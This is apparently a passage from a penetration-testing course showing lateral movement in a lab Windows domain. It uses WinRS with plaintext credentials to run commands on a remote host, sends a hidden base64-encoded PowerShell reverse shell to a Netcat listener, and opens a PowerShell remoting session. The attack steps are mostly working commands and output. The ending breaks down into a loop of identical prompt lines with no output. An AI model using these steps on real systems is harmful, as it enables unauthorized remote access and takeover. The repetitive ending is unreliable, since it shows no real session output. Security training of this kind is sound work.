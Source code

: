 For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

The winrs utility can be invoked by specifying the target host through the _\-r:_ argument and the username with _\-u:_ and password with _\-p_. As a final argument, we want to specify the commands to be executed on the remote host. For example, we want to run the hostname and whoami commands to prove that they are running on the remote target.

Since winrs only works for domain users, we'll execute the whole command once we've logged in as _jeff_ on CLIENT74 and provide _jen_'s credentials as command arguments.

```
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
FILES04
corp\jen
```

> Listing 10 - Executing commands remotely via WinRS

The output confirms that we have indeed executed the commands remotely on FILES04.

To convert this technique into a full lateral movement scenario, we just need to replace the previous commands with the base64 encoded reverse shell we wrote earlier.

```
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

> Listing 11 - Running the reverse-shell payload through WinRS

Once we run the above command after having set up a Netcat listener, we are welcomed with a reverse-shell from FILE04.

```
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 65107
PS C:\Users\jen> hostname
FILES04
PS C:\Users\jen> whoami
corp\jen
```

> Listing 12 - Veriyfing the origin of the WinRS reverse-shell

PowerShell also has WinRM built-in capabilities called [_PowerShell remoting_](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.2), which can be invoked via the _New-PSSession_ cmdlet by providing the IP of the target host along with the credentials in a credential object format similar to what we did previously.

```
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname